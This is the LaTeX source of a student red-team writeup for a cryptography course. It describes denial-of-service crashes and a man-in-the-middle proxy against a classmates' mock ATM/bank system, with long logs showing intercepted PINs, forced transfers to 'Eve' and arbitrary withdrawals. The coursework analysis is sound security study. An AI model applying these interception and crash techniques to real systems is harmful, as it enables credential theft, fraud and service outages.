% (runghc GenerateStackDiagram.hs && pdflatex redteam_writeup.tex && evince redteam_writeup.pdf)
\documentclass[12pt]{article}
\usepackage{color}
\usepackage[pdftex]{graphicx}
\usepackage{tikz}
\usepackage{enumerate}
\usepackage[margin=0.25in,footskip=0.25in]{geometry}
\usepackage[normalem]{ulem}
\usepackage{setspace}
\usepackage{fancyvrb}
\usepackage{upquote}
\begin{document}
\noindent
Brian Sheedy \& Avi Weinstock \hfill Cryptography \& Network Security (\Verb|CSCI-4230|)\\
Red Team Crypto Writeup for Attacks on Mock Banking System\\
Target Implementation Written By Peter Kang, Kevin Andrade, and Julius Alexander IV
\doublespace

\section*{Successful attacks}
\subsection*{Denial of Service (Bank Process Killed)}
There are two ways of denying service by killing the bank process. The first is by causing a SIGPIPE signal to be sent from a closed socket, which causes the bank process to close immediately. This can be achieved by rapidly creating a few ATMs, sending login/logout messages, and then immediately killing the processes. The script dos\_connection.py achieves this with small (0.1 seconds or less, depending on processor speed) sleeps in between commands.\\
The second way of killing the bank process is to send back a malformed message back to the bank when it is expecting an RSA encrypted AES key that is 384 bytes long. If it receives fewer bytes than expected, CryptoPP throws an exception and kills the bank. This is easily achieved by modifying the proxy to send dummy plaintext to the bank at the appropriate step in the handshake. MitmProxy does this when passed \verb|ExceptionDOS| as the exploit name. This causes MitmProxy to send ``hello'' to the bank instead of an RSA payload, causing the following exception message:
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
terminate called after throwing an instance of 'CryptoPP::InvalidArgument'
  what():  RSA/OAEP-MGF1(SHA-1): ciphertext length of 5 doesn't match the required length of 384 for this key
Aborted
\end{Verbatim}
\subsection*{Denial of Service (Permanent 100\% CPU Usage On Host)}
There is a bug in the bank’s code that causes threads handling connections to ATMs to get stuck in an infinite loop whenever the connected ATM is closed (such as via \^{}C). Since each ATM connection is handled by a separate thread, repeating this process multiple times causes multiple threads to be stuck in infinite loops, causing the bank's host to run even slower. This can be achieved by using dos\_connection.py and setting the sleeps to 1 second each. The script will continue to create and kill ATM processes until the bank refuses any further connections. Since the threads will never end, the sockets for each ATM will also never close, causing the bank to refuse connections indefinitely once enough ATMs have connected and disconnected.
\subsection*{Man in the Middle Attack}
The way the initial handshake is supposed to work is:
\begin{enumerate}[1)]
\item Bank generates an RSA keypair
\item Bank sends ATM its public key
\item ATM generates random AES key \& IV
\item ATM encrypts the key \& IV with the Bank's public key
\item ATM sends the encrypted key \& IV to the Bank
\item Bank decrypts the key \& IV
\item All further conversation is fixed-width packets encrypted with AES
\end{enumerate}
(Un)fortunately, the ATM has no way of knowing that the RSA public key actually belongs to the bank, and hence all traffic can be intercepted and modified with the following protocol:
\begin{enumerate}[1)]
\item Bank generates an RSA keypair
\item Bank sends Proxy its public key
\item Proxy generates an RSA keypair
\item Proxy sends ATM its public key
\item ATM generates random AES key \& IV
\item ATM encrypts the key \& IV with the Proxy's public key
\item ATM sends the encrypted key \& IV to the Proxy
\item Proxy decrypts the key \& IV
\item Proxy re-encrypts the key \& IV with the Bank's public key
\item All further conversation is fixed-width packets encrypted with AES, and the proxy knows the key
\end{enumerate}
Since the proxy can read and modify all traffic (as well as start independent sessions without an ATM connected), if anyone tries to log in with the proxy in the middle the proxy can capture their PIN and transfer/withdraw all their money before logging them in.
\\
There are 3 currently implemented attacks that make use of this vulnerability: LogTraffic, InterceptCreds, and ArbitraryWithdrawal.
\\
LogTraffic does the handshake, and then logs everything that goes through it to its standard out.
Sample ATM session:
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ./atm 1200
login Alice
Enter PIN:
012345
You've successfully logged in. Welcome Alice
balance
Your balance is 10000 cents.
transfer 500 Bob
You transferred 500 cents to Bob and your balance is now 9500 cents.
transfer 250 Eve
You transferred 250 cents to Eve and your balance is now 9250 cents.
balance
Your balance is 9250 cents.
logout
Alice has logged out.
\end{Verbatim}
Corresponding Proxy output (manually linebroken):
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ghc -O2 MitmProxy && ./MitmProxy LogTraffic 1200 1201
Received a connection from localhost:37933
Forwarding to localhost:1201
Raw AES key: "\SIY\DC3\158\129\231t)\206:\205,\181+\230\174"
Raw AES IV: "6\r\203\175\140\158#\196D\194\RSZ\\c\172\241"
Raw Initial Nonce: "elGunrjk37787142"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"012345\", actOldNonce = \"elGunrjk37787142\", 
actNewNonce = \"jrzSULC838753466\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"jrzSULC838753466\", 
actNewNonce = \"m6hh4*Tq43154698\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"m6hh4*Tq43154698\", 
actNewNonce = \"GHjHaTiZ46861853\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"GHjHaTiZ46861853\", 
actNewNonce = \"C#hxTe2G46862790\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"C#hxTe2G46862790\", 
actNewNonce = \"PiwB1ELI50899461\", actCmd = Transfer, actAmount = 500, actRecipient = \"Bob\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"PiwB1ELI50899461\", 
actNewNonce = \"ATMAzOgt50900181\", actCmd = Transfer, actAmount = 9500, actRecipient = \"Bob\"}"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"ATMAzOgt50900181\", 
actNewNonce = \"W1tpnTFQ54092577\", actCmd = Transfer, actAmount = 250, actRecipient = \"Eve\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"W1tpnTFQ54092577\", 
actNewNonce = \"QiCuDF9z54093618\", actCmd = Transfer, actAmount = 9250, actRecipient = \"Eve\"}"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"QiCuDF9z54093618\", 
actNewNonce = \"qfqov5PF57054538\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"qfqov5PF57054538\", 
actNewNonce = \"dv&i09f$57055326\", actCmd = Balance, actAmount = 9250, actRecipient = \"\"}"
37933 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"dv&i09f$57055326\", 
actNewNonce = \"zVhz#XAI59876064\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37933: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"zVhz#XAI59876064\", 
actNewNonce = \"vKzeCccX59876972\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
\end{Verbatim}
InterceptCreds does the handshake and intercepts any PINs, using them to transfer everything to Eve.
It then allows the logins normally, and logs everything that goes through it to standard out,
Sample ATM session:
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ./atm 1200
login Eve
Enter PIN:
123456
You've successfully logged in. Welcome Eve
balance
Your balance is 0 cents.
logout
Eve has logged out.
login Alice
Enter PIN:
012345
You've successfully logged in. Welcome Alice
balance
Your balance is 0 cents.
logout
Alice has logged out.
login Bob
Enter PIN:
654321
You've successfully logged in. Welcome Bob
balance
Your balance is 0 cents.
logout
Bob has logged out.
login Eve
Enter PIN:
123456
You've successfully logged in. Welcome Eve
balance
Your balance is 15000 cents.
withdraw 15000
You withdrew 15000 cents and your balance is now 0 cents.
logout
Eve has logged out.
\end{Verbatim}
Corresponding Proxy output (manually linebroken):
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ghc -O2 MitmProxy && ./MitmProxy InterceptCreds 1200 1201
Received a connection from localhost:37969
Forwarding to localhost:1201
Raw AES key: "N\171\144\140H*\143L\208$DxJ\SUBgY"
Raw AES IV: "1\191\179\174'y\SO\232\&9\210`\149\232n\192\208"
Raw Initial Nonce: "RlFG2izP47629746"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"123456\", actOldNonce = \"RlFG2izP47629746\", 
actNewNonce = \"FrpSoXSF49325312\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"FrpSoXSF49325312\", 
actNewNonce = \"B&u^aF^u52980286\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"B&u^aF^u52980286\", 
actNewNonce = \"BjLzVTA#54300548\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BjLzVTA#54300548\", 
actNewNonce = \"W65!WuLI54301141\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"W65!WuLI54301141\", 
actNewNonce = \"BobBnEF555492813\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BobBnEF555492813\", 
actNewNonce = \"nTBpaNkU55493336\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"012345\", actOldNonce = \"nTBpaNkU55493336\", 
actNewNonce = \"VRs#j^2a58112198\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
Intercepted creds "Alice":"012345"
Transferring everything to Eve
Transfer successful
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"VRs#j^2a58112198\", 
actNewNonce = \"a3KmSCM!62023423\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"a3KmSCM!62023423\", 
actNewNonce = \"66UPbZl463449808\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"66UPbZl463449808\", 
actNewNonce = \"hsnH^epO63450725\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"hsnH^epO63450725\", 
actNewNonce = \"khF6Xg7M64658788\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"khF6Xg7M64658788\", 
actNewNonce = \"0^ZCz6Ss64659355\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Bob\", actPin = \"654321\", actOldNonce = \"0^ZCz6Ss64659355\", 
actNewNonce = \"7v6&5M4&68970720\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
Intercepted creds "Bob":"654321"
Transferring everything to Eve
Transfer successful
1201 -> 37969: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"7v6&5M4&68970720\", 
actNewNonce = \"a8Q4nwjU73589534\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"a8Q4nwjU73589534\", 
actNewNonce = \"VaswARWL75624258\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"VaswARWL75624258\", 
actNewNonce = \"rUbygJ#d75625027\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"rUbygJ#d75625027\", 
actNewNonce = \"*1ak5RzP77649167\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"*1ak5RzP77649167\", 
actNewNonce = \"3GmJgvsu77649653\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"123456\", actOldNonce = \"3GmJgvsu77649653\", 
actNewNonce = \"R2CcYzqd79728086\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"R2CcYzqd79728086\", 
actNewNonce = \"@#1KR8VP84424769\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"@#1KR8VP84424769\", 
actNewNonce = \"n3JwC4wU86257093\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"n3JwC4wU86257093\", 
actNewNonce = \"oxeXnw0E86257992\", actCmd = Balance, actAmount = 15000, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"oxeXnw0E86257992\", 
actNewNonce = \"oNjB74QR89800775\", actCmd = Withdraw, actAmount = 15000, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"oNjB74QR89800775\", 
actNewNonce = \"huSDKAoX89801595\", actCmd = Withdraw, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"huSDKAoX89801595\", 
actNewNonce = \"bEk9GWp@92750849\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"bEk9GWp@92750849\", 
actNewNonce = \"9fYH$^UR92751503\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
\end{Verbatim}
ArbitraryWithdrawal intercepts the handshake, passes though most commands normally, but intercepts all withdrawaals to cause them to work independent of the current balance.
\\
Sample ATM session:
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ./atm 1200
login Alice
Enter PIN:
012345
You've successfully logged in. Welcome Alice
balance
Your balance is 10000 cents.
withdraw 25
You withdrew 25 cents and your balance is now 10000 cents.
withdraw 31337
You withdrew 31337 cents and your balance is now 10000 cents.
withdraw 42
You withdrew 42 cents and your balance is now 10000 cents.
withdraw 999999999
You withdrew 999999999 cents and your balance is now 10000 cents.
logout
Alice has logged out.
login Bob
Enter PIN:
654321
You've successfully logged in. Welcome Bob
balance
Your balance is 5000 cents.
withdraw 1337
You withdrew 1337 cents and your balance is now 5000 cents.
withdraw 256
You withdrew 256 cents and your balance is now 5000 cents.
logout
Bob has logged out.
login Eve
Enter PIN:
123456
You've successfully logged in. Welcome Eve
balance
Your balance is 0 cents.
withdraw 0
You withdrew 0 cents and your balance is now 0 cents.
withdraw 65536
You withdrew 65536 cents and your balance is now 0 cents.
withdraw 512
You withdrew 512 cents and your balance is now 0 cents.
logout
Eve has logged out.
\end{Verbatim}
Corresponding Proxy output (manually linebroken):
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ghc -O2 MitmProxy && ./MitmProxy ArbitraryWithdrawal 1200 1201
Received a connection from localhost:38737
Forwarding to localhost:1201
Raw AES key: "\235\221\193={\189\&7\EOT'<O~\DC3\187\130\199"
Raw AES IV: "?\EOTA\231\203[\182\142\227\248N\203*\220\213\157"
Raw Initial Nonce: "UL6vS01H6005169"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"012345\", actOldNonce = \"UL6vS01H6005169\", 
actNewNonce = \"70a3KfIc7249160\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"70a3KfIc7249160\", 
actNewNonce = \"ct*NM$xd9198589\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"ct*NM$xd9198589\", 
actNewNonce = \"blOgvEst11165527\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"blOgvEst11165527\", 
actNewNonce = \"5V9!8fwa11166597\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"5V9!8fwa11166597\", 
actNewNonce = \"e1dRDEO!14604306\", actCmd = Withdraw, actAmount = 25, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"e1dRDEO!14604306\", 
actNewNonce = \"lAR8dula14605124\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"lAR8dula14605124\", 
actNewNonce = \"g87CAHQ018523302\", actCmd = Withdraw, actAmount = 31337, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"g87CAHQ018523302\", 
actNewNonce = \"OqID3EK$18523828\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"OqID3EK$18523828\", 
actNewNonce = \"sed$nh@v22960533\", actCmd = Withdraw, actAmount = 42, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"sed$nh@v22960533\", 
actNewNonce = \"^q1sJ0&D22961703\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"^q1sJ0&D22961703\", 
actNewNonce = \"w4#GbErZ57231143\", actCmd = Withdraw, actAmount = 999999999, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"w4#GbErZ57231143\", 
actNewNonce = \"cwO92jsh57232157\", actCmd = Balance, actAmount = 10000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"cwO92jsh57232157\", 
actNewNonce = \"N5Iyxkc360203413\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"N5Iyxkc360203413\", 
actNewNonce = \"qIqQ8Eut60204081\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Bob\", actPin = \"654321\", actOldNonce = \"qIqQ8Eut60204081\", 
actNewNonce = \"78W05aGR62324634\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"78W05aGR62324634\", 
actNewNonce = \"KgHM64&z66314046\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"KgHM64&z66314046\", 
actNewNonce = \"qzZqz9H468912119\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"qzZqz9H468912119\", 
actNewNonce = \"VoK#Qxyo68913219\", actCmd = Balance, actAmount = 5000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"VoK#Qxyo68913219\", 
actNewNonce = \"IvstQTTT78156101\", actCmd = Withdraw, actAmount = 1337, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"IvstQTTT78156101\", 
actNewNonce = \"jGm$9Zpe78156702\", actCmd = Balance, actAmount = 5000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"jGm$9Zpe78156702\", 
actNewNonce = \"c&lSTKcG84360437\", actCmd = Withdraw, actAmount = 256, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"c&lSTKcG84360437\", 
actNewNonce = \"9c$etQxw84361277\", actCmd = Balance, actAmount = 5000, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"9c$etQxw84361277\", 
actNewNonce = \"DXaWjf2r87825790\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Bob\", actPin = \"\", actOldNonce = \"DXaWjf2r87825790\", 
actNewNonce = \"9cu5&3WK87826916\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"123456\", actOldNonce = \"9cu5&3WK87826916\", 
actNewNonce = \"7TB4tqLR91145319\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"7TB4tqLR91145319\", 
actNewNonce = \"L0pWhVY994541249\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"L0pWhVY994541249\", 
actNewNonce = \"!foxolLg3182763\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"!foxolLg3182763\", 
actNewNonce = \"XP2TODT83183945\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"XP2TODT83183945\", 
actNewNonce = \"0cF31MfT12498872\", actCmd = Withdraw, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"0cF31MfT12498872\", 
actNewNonce = \"aqF7qnQn12499577\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"aqF7qnQn12499577\", 
actNewNonce = \"84V1nQ!W20767422\", actCmd = Withdraw, actAmount = 65536, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"84V1nQ!W20767422\", 
actNewNonce = \"jXliKUvC20768152\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"jXliKUvC20768152\", 
actNewNonce = \"947O!inR28581476\", actCmd = Withdraw, actAmount = 512, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"947O!inR28581476\", 
actNewNonce = \"gMnJAy#&28582393\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
38737 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"gMnJAy#&28582393\", 
actNewNonce = \"wfvHlpQY33712219\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 38737: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"wfvHlpQY33712219\", 
actNewNonce = \"WTE*ZJYP33713278\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
\end{Verbatim}
\section*{Attempted unsuccessful attacks}
\subsection*{Remote Code Execution}

\includegraphics[width=\textwidth]{bankscreenshot_cropped.png}
\pagebreak\\
